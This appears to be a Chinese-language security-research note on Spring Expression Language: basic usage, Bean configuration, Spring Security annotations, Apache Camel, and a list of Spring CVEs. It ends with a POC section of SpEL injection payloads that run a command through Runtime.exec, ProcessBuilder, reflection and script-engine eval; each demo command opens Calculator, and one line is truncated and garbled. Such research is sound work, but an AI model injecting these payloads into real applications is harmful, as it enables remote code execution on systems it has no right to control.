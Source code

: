 ## spel
SpEL（Spring Expression Language）。官网参考：https://docs.spring.io/spring-framework/docs/current/reference/html/core.html#expressions

SpEL的基本用法
```java
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression("'Hello World'.concat('!')"); 
String message = (String) exp.getValue();
```

SpEL在实际开发中的一些应用如下

**（1）预定义Bean的值**
xml配置如下
```
<bean id="numberGuess" class="org.spring.samples.NumberGuess">
    <property name="randomNumber" value="#{T(java.lang.Math).random()*100.0}"/>
</bean>
```
也可以在Bean的属性上方用`@Value`注解达到同样的效果

**（2）Spring Security**
在Spring Security中，有四个注解用于安全控制`@PreAuthorize、@PostAuthorize、@PreFilter、@PostFilter`，它们都接收SpEL
```
@PreAuthorize("hasPermission(#contact, 'admin')")
@PreAuthorize("hasAuthority('ROLE_DMIN') or #reqVo.sysUser.username == #userDetails.username")
```

**（3）Apache Camel**
Apache Camel是一个集成框架，集成了许多常见的组件，如Redis、Shiro等，也集成了SpEL，官方文档：https://camel.apache.org/components/3.20.x/languages/spel-language.html

Camel将SpEL用作DSL或XML配置，模板`#{}`
```xml
<route>
  <from uri="direct:foo"/>
  <filter>
    <spel>#{request.headers.foo == 'bar'}</spel>
    <to uri="direct:bar"/>
  </filter>
</route>
```

Spring相关组件出现的漏洞包括：CVE-2016-4977、CVE-2017-8046、CVE-2018-1260、CVE-2018-1273、CVE-2021-22053、CVE-2022-22947、CVE-2022-22963等，参考：https://github.com/ax1sX/SpringSecurity

### POC
SpEL的语言特性中有几点值得注意，（1）`{}`可以用来表达列表/键值对 （2）支持数组创建和数组调用，如`new String[]`、`members[0]` （3）`T`运算符用来指定类实例（除java.lang外，均需要采用全限定类名） （4）支持用`new`调用构造函数 （5）`#`用来引用变量，`$`用来引用属性 （6）可使用`#this`或`#root` （6）支持三元运算符作条件判断`xx ? true : false `
```
* Command Execution
T(Runtime).getRuntime().exec(\"open -a Calculator\")
new java.lang.ProcessBuilder({\"/bin/sh\",\"-c\",\"open -a Calculator\"}).start()
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("open -a Calculator")
T(String).getClass().forName("java.lang.Runtime").getMethod("exec",T(String[])).invoke(T(String).getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(T(String).getClass().forName("java.lang.Runtime")),new String[]{"/bin/sh","-c","open -a Calculator"})
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='/bin/sh';s[1]='-c';s[2]='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);")
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("s=[3];s[0]='/bin/sh';s[1]='-c';s[2]='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);"),)
nstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a...")),)

* Command Execution + Response
```